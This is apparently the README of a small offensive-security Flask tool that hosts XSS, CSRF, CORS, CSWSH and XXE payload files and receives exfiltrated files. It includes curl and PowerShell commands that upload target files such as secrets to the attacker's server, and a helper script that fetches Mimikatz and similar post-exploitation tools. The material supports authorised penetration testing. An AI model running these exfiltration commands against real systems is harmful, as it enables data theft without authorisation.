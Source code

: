 # Gamal

A tiny flask app for helping pentesters, red-teamers and bug hunters in data exfileration, SSRF, XSS, Session Hijacking, Session Riding and Cookie Thieve.

## Install & usage

```bash
cd /opt
git clone github.com/Fadavvi/Gamal
cd Gamal
python3 -m pip install flask
python3 gamal.py
```  

Default configuration: IP binding: `0.0.0.0`, Port: `1337`, Log: `gamal.log`, Canary-String: `booqbooqGamal`

or

`python3 gamal.py --ip <IPADDR> --port <PORTNUM> --log <LOGPATH> --canary <YourCanaryString> [--cert <FullChain> --key <PrivateKey>]`

Then you can use your IP & Port in your payloads.

***Note:*** Add your files in `/f` folder ==>  `http://IP:PORT/f/<Your-FileName>`

## Paylods

`/f/xss.js` XSS Sample function

`/f/CORS.html` CORS sample script

`/f/CSRF.html` CSRF sample page

`/f/CSWSH.html` Cross-Site WebSocket Hijacking (CSWSH) script

`/f/meta.jpg` XSS in Meta-data

`/f/EBXXE.dtd` XXE .dtd sample file

`/f/xxe1.svg` and `/f/xxe2.svg` XXE in SVG file

## Data exfiltration

### Linux / MacOS

`curl -k -F "file=@<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`

### Windows

`Remove-Item alias:curl -ErrorAction SilentlyContinue; curl -k -F "file=@C:\<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`

### Special Parameters

If you use `user` and `host` parameters in the upload URL, they will be used in the file name. It'll help you identify the owner of the files more easily. Example:

```bash
 curl -k -F "file=/opt/secrets.txt" "https://127.0.0.1:1337/e/upload?host=$(hostname)&user=$(id -un)"
```

outputfile:
`{host}--{user}--{request.remote_addr}--{random-uuid4}-{RealFileName}`

## Gamal helper script

It downloads and categorizes the most common tools for delivering to the targets (Windows / Linux / macOS)

- [Mimikatz](https://github.com/gentilkiwi/mimikatz/)
- [SharpCollection](https://github.com/Flangvik/SharpCollection/) -- Read the README file before you use them in your operations.
- [Ligolo-ng](https://github.com/nicocha30/ligolo-ng/) -- agent and proxy
- [PEASS-ng](https://github.com/peass-ng/PEASS-ng/)
- [AzureHound](https://github.com/SpecterOps/AzureHound)

## Disclaimer

 This tool is intended for use only in a legal and legitimate manner. Unfortunately, there is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.


## To do

- [ ] DNS exfiltration capability
- [ ] Adding more tools to the helper script
